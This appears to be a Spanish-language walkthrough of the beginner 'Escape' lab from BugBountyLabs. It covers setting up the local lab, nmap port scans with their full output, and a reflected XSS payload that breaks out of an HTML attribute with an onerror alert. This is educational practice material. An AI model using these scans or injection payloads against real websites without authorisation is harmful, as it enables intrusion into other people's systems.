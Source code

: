 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Escape BugBountyLabs (Principiante)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip bugbountylabs_escape.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
python3 bugbountylabs_escape.py
```

Info:

```
██████╗ ██╗   ██╗ ██████╗     ██████╗  ██████╗ ██╗   ██╗███╗   ██╗████████╗██╗   ██╗    ██╗      █████╗ ██████╗ ███████╗
██╔══██╗██║   ██║██╔════╝     ██╔══██╗██╔═══██╗██║   ██║████╗  ██║╚══██╔══╝╚██╗ ██╔╝    ██║     ██╔══██╗██╔══██╗██╔════╝
██████╔╝██║   ██║██║  ███╗    ██████╔╝██║   ██║██║   ██║██╔██╗ ██║   ██║    ╚████╔╝     ██║     ███████║██████╔╝███████╗
██╔══██╗██║   ██║██║   ██║    ██╔══██╗██║   ██║██║   ██║██║╚██╗██║   ██║     ╚██╔╝      ██║     ██╔══██║██╔══██╗╚════██║
██████╔╝╚██████╔╝╚██████╔╝    ██████╔╝╚██████╔╝╚██████╔╝██║ ╚████║   ██║      ██║       ███████╗██║  ██║██████╔╝███████║
╚═════╝  ╚═════╝  ╚═════╝     ╚═════╝  ╚═════╝  ╚═════╝ ╚═╝  ╚═══╝   ╚═╝      ╚═╝       ╚══════╝╚═╝  ╚═╝╚═════╝ ╚══════╝

Fundadores
El Pingüino de Mario
Curiosidades De Hackers

Cofundadores
Zunderrub
CondorHacks
Lenam

Descargando la máquina escape, espere por favor...

[########################################] 100%
Descarga completa.
La IP de la máquina escape es -> 172.17.0.2

Presiona Ctrl+C para detener la máquina
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

### Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-16 14:22 CET
Nmap scan report for ssti.dl (172.17.0.2)
Host is up (0.000039s latency).

PORT     STATE SERVICE VERSION
5000/tcp open  upnp?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.1.3 Python/3.10.16
|     Date: Sun, 16 Mar 2025 13:22:16 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1158
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Laboratorio Reflected XSS</title>
|     <link rel="stylesheet" href="/static/styles.css">
|     </head>
|     <body>
|     <header class="navbar">
|     <div class="container">
|     <h1>Laboratorio Reflected XSS</h1>
|     </div>
|     </header>
|     <main class="container">
|     <section id="lab" class="lab-section">
|     <h2>Prueba tu payload</h2>
|     <p>Introduce un payload y observa c
|     refleja en la p
|     gina. Para explotar, deber
|     escapar del atributo HTML.</p>
|     <form method="POST" class="pentest-form">
|     <label for="in
|   RTSPRequest:
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.94SVN%I=7%D=3/16%Time=67D6D088%P=x86_64-pc-linux-gnu%r
SF:(GetRequest,536,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/3\.1\.3\
SF:x20Python/3\.10\.16\r\nDate:\x20Sun,\x2016\x20Mar\x202025\x2013:22:16\x
SF:20GMT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length
SF::\x201158\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20l
SF:ang=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\x20\
SF:x20\x20\x20<meta\x20name=\"viewport\"\x20content=\"width=device-width,\
SF:x20initial-scale=1\.0\">\n\x20\x20\x20\x20<title>Laboratorio\x20Reflect
SF:ed\x20XSS</title>\n\x20\x20\x20\x20<link\x20rel=\"stylesheet\"\x20href=
SF:\"/static/styles\.css\">\n</head>\n<body>\n\x20\x20\x20\x20<header\x20c
SF:lass=\"navbar\">\n\x20\x20\x20\x20\x20\x20\x20\x20<div\x20class=\"conta
SF:iner\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<h1>Laboratori
SF:o\x20Reflected\x20XSS</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20</div>\n\x2
SF:0\x20\x20\x20</header>\n\x20\x20\x20\x20<main\x20class=\"container\">\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20<section\x20id=\"lab\"\x20class=\"lab-s
SF:ection\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<h2>Prueba\x
SF:20tu\x20payload</h2>\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<
SF:p>Introduce\x20un\x20payload\x20y\x20observa\x20c\xc3\xb3mo\x20se\x20re
SF:fleja\x20en\x20la\x20p\xc3\xa1gina\.\x20Para\x20explotar,\x20deber\xc3\
SF:xa1s\x20escapar\x20del\x20atributo\x20HTML\.</p>\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20<form\x20method=\"POST\"\x20class=\"pentest-
SF:form\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20<label\x20for=\"in")%r(RTSPRequest,1F4,"<!DOCTYPE\x20HTML\x20PUBLIC\x
SF:20\"-//W3C//DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\"http://www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x20\x2
SF:0<head>\n\x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Content-
SF:Type\"\x20content=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x20\x2
SF:0\x20\x20<title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x2
SF:0\x20\x20\x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20respo
SF:nse</h1>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\
SF:n\x20\x20\x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20versi
SF:on\x20\('RTSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x
SF:20code\x20explanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20Bad\x20reques
SF:t\x20syntax\x20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</bod
SF:y>\n</html>\n");
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.77 seconds
```

Vemos que hay un puerto `5000` si entramos a dicho puerto veremos una pagina web que se centra en la vulnerabilidad de un `XSS`, el objetivo es realizar una inyeccion de `XSS` pero escapando del atributo `HTML`, que se podra hacer realizando lo siguiente:

URL = [Info Payloads XSS](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

```html
"><img src=x onerror=alert('XSS');>
```

<figure><img src="../../.gitbook/assets/image (296).png" alt=""><figcaption></figcaption></figure>

Con `">` ya estamos escapando el `HTML` y estamos añadiendo una nueva seccion a nivel de codigo, si inspeccionamos el codigo veremos esto:

<figure><img src="../../.gitbook/assets/image (297).png" alt=""><figcaption></figcaption></figure>

Vemos que efectivamente se nos añadio el bloque del `img` por lo que ha funcionado y habremos resuelto el laboratorio de forma correcta.
